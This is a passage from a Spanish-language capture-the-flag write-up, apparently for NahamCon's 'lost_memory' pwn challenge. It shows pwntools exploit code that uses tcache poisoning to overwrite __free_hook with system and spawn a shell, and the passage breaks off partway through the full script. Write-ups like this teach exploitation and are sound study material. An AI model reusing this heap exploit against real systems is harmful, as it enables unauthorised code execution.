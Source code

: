 Para terminar hacemos un ret2libc usando la misma primitiva de escritura arbitraria pero esta vez redirigimos la escritura a `__free_hook`, una funcion que es llamada en lugar de `free` si no es NULL:

![2025-05-27-234521_1337x168_scrot](https://github.com/user-attachments/assets/10548c7a-08ed-4738-9eef-f6f0296f1271)

Suplantamos __free_hook con `system` y creamos un chunk que contenga `/bin/sh`. Al llamar a `free(chunk)` se ejecutará `system("/bin/bash")`:
```
tcache -> chunk1 -> __free_hook(system)
                 fd
tcache -> chunk1
           data "/bin/sh"
```

``` python
#tcache poison to get RCE by overwriting the free hook
alloc(0x98)
free()
write_data(b"A")
free()
write_data(p64(libc.sym.__free_hook)+p64(0)) #ret address
alloc(0x98)
alloc(0x98)
write_data(p64(libc.sym.system))
alloc(0x18)
write_data(b"/bin/sh\0")
sleep(0.2)
# call free_hook
sl(b"4")
```

Exploit completo:
``` py
#!/usr/bin/env python3

from pwn import *

elf = ELF("./lost_memory")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = elf
context.terminal = ['tmux', 'splitw', '-hp', '70']
#context.log_level = "debug"
gs = '''
continue
'''
def start():
    if args.REMOTE:
        return remote("challenge.nahamcon.com", 30427)
    if args.GDB:
        return gdb.debug([elf.path], gdbscript=gs)
    else:
        return process([elf.path])

r = start()

def rcu(d1, d2=0):
  r.recvuntil(d1, drop=True)
  if (d2):
    return r.recvuntil(d2,drop=True)
libcbase = lambda: log.info("libc base = %#x" % libc.address)
logleak = lambda name, val: log.info(name+" = %#x" % val)
sa = lambda delim, data: r.sendafter(delim, data)
sla = lambda delim, line: r.sendlineafter(delim, line)
```